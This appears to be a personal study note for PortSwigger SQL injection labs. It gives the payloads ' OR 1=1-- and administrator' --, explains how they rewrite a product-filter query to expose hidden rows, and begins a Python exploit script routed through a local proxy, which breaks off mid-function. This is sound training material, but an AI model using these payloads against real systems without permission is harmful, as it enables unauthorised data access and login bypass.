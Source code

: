 > [!NOTE]
> If Internal server error come then it means something is happening at back end

# Payloads


> [!NOTE] Title
> Always use `#` or `//` if `--` won't work as these are other commenting operator

```
' OR 1=1--                        (GOLD)
administrator' --
```

# WHERE clause allowing retrieval of hidden data
https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-hidden-data/sql-injection/lab-retrieve-hidden-data

When there's a query like this
```
web-security-academy.net/filter?category=Pets
```

try to modify field with IDOR, path traversal, SQLI

Verify by putting `'`
### Used Payload
```
web-security-academy.net/filter?category=' OR 1=1--
```

which means
```
SELECT * FROM products WHERE category = '' or 1=1 --' AND released = 1
```
it will neglect rest of code after --

### Notes
SQL injection - product category filter

SELECT * FROM products WHERE category = 'Gifts' AND released = 1 

End goal: display all products both released and unreleased.

**Analysis:**

SELECT * FROM products WHERE category = 'Pets' AND released = 1

SELECT * FROM products WHERE category = ''' AND released = 1 

SELECT * FROM products WHERE category = ''--' AND released = 1 

SELECT * FROM products WHERE category = ''

SELECT * FROM products WHERE category = '' or 1=1 --' AND released = 1 

### Python script
```
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli(url, payload):
    uri = '/filter?category='
    r = requests.get(url + uri + payload, verify=False, proxies=proxies)
    if "Cat Grin" in r.text:
```